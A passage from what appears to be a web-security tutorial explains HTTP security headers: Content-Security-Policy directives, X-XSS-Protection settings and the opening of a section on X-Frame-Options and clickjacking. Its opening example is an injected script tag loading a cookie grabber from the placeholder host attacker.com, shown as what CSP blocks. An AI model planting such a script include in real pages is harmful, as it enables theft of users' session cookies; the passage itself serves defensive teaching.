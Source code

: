 ```html
<script src="attacker.com/cookie_grabber.js"></script>
```

There are many different directives of the policy, but the most important one is `script-src`, which defines where scripts can be loaded from. Other directives include `default-src`, `object-src`, `img-src`, and more. You can define a policy using the" header syntax:

```
Content-Security-Policy: RESOURCE-TYPE ORIGIN ORIGIN ORIGIN ...
```

For example, this policy limits the source of scripts to the current domain, and "www.okta.com". `self` represents the current domain.

```
Content-Security-Policy: script-src 'self' https://www.okta.com
```

The `default-src` directive defines the policy for any resource that does not already have a policy. For example, this policy tells the browsers that all scripts should come from subdomains of "okta.com", and all other resources should only load from the current domain.

```
Content-Security-Policy: default-src 'self'; script-src https://*.okta.com
```

### X-XSS-Protection

This header controls the XSS auditor on the user's browser. There are four options for this header.

```
X-XSS-Protection: 0 (Turns off XSS Auditor)
X-XSS-Protection: 1 (Turns on XSS Auditor)

X-XSS-Protection: 1; mode=block (Turns on XSS Auditor, prevents rendering the page when an attack is detected)

X-XSS-Protection: 1; report=REPORT_URI (Sanitizes the page and sends a report to the report URL when an attack is detected)
```

XSS auditors are built-in XSS filters implemented by some browsers. However, they are not a reliable way to protect your site against XSS attacks. Many browsers have removed their built-in XSS auditor because they can help attackers bypass XSS controls implemented by websites.

The current best practice is turning the XSS auditor off and implementing comprehensive XSS protection on the server side.

```
X-XSS-Protection: 0
```

### X-Frame-Options

The X-Frame-Options header prevents clickjacking attacks. Clickjacking is an attack in which attackers frame the victim site as a transparent layer on a malicious page to trick users into executing unwanted actions.
